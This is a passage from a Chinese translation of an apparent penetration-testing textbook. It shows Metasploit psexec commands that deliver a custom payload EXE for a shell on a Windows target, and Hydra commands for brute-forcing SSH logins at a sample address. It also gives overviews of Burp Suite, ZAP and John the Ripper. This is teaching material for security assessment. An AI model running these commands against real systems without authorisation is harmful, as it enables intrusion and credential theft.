那么，如果你有这些自定义利用，你如何将它们与真正的 Metasploit 利用结合使用呢？简单，只需调整变量指向它们。以下是在 Metasploit 中使用`psexec`模块的示例。确保将 targetIP 更改为目标 Windows 系统的 IP。设置系统上的本地管理员的用户名和本地管理员的密码。最后，将自定义`EXE`路径设置为你的`python_paload.exe`，你应该会看到在你的监听器上生成一个 shell。

```py
use exploit/windows/smb/psexec
set rhost targetIP
set SMBUser username
set password password
set EXE::Custom /path/to/your/python_payload.exe
exploit -j

```

## Burp Suite

Burp Suite 是透明代理或用于直接交互和操纵发送到浏览器和从浏览器发送的网络流的工具时的标准。这个工具有一个专业版，增加了一个不错的网络漏洞扫描器。在使用它时应该小心，因为它可能导致多次提交论坛、电子邮件和交互。

其 Spider 工具也是如此，它与范围内的 Web 应用程序交互，并将它们映射到类似于 Google 和 Bing 的 Web 爬虫。确保在使用这些工具时，最初禁用自动提交和登录，直到你更好地了解这些应用程序。更多关于 Burp 和类似的 Web 工具将在第六章中介绍，*使用 Python 评估 Web 应用程序*。其他类似的工具包括**Zed Attack Proxy**（**ZAP**），它现在还包含了名为 DirBuster 的未链接文件夹和文件研究工具。

## Hydra

Hydra 是一种服务或接口字典攻击工具，可以识别可能提供访问权限的有效凭据。Hydra 是多线程的，这意味着它可以同时评估多个猜测的服务，大大加快了攻击和产生的噪音。例如，以下命令可用于攻击具有 IP 地址`192.168.1.10`的主机上的**Secure Shell**（**SSH**）服务：

```py
hydra -L logins.txt -P passwords.txt -f -V 192.168.1.10 ssh

```

此命令使用用户名列表和密码列表，在第一次成功时退出，并显示尝试的每个登录组合。如果您只想测试单个用户名和密码，命令将更改为分别使用小写`l`和`p`。相应的命令如下：

```py
hydra -l root -p root -f -V 192.168.1.10 ssh

```

Hydra 还具有针对服务和网站的身份验证接口进行暴力攻击的能力。行业中有许多其他具有类似功能的工具，但大多数评估者使用 Hydra，因为它具有广泛的功能和协议支持。有时 Hydra 不适用，但通常其他工具也无法满足需求。发生这种情况时，我们应该考虑创建一个 Python 脚本。有关凭据攻击的其他详细信息在第四章中有所涵盖，*使用 Python 执行凭据攻击*。

## 约翰·里波特

约翰·里波特（JtR），或者大多数人称之为约翰，是市场上最好的破解软件之一，可以攻击加盐和未加盐的哈希。约翰最大的好处之一是它可以与大多数哈希一起使用。约翰有能力从标准输出和文件格式中识别哈希类型。如果仅提供哈希文件而没有参数，约翰将尝试使用其标准方法破解哈希。首先尝试单一破解模式，然后是单词列表模式，最后是增量模式。

### 提示

**下载示例代码**

您可以从您在[`www.packtpub.com`](http://www.packtpub.com)的帐户中下载示例代码文件，用于您购买的所有 Packt Publishing 图书。如果您在其他地方购买了这本书，您可以访问[`www.packtpub.com/support`](http://www.packtpub.com/support)并注册，文件将直接通过电子邮件发送给您。
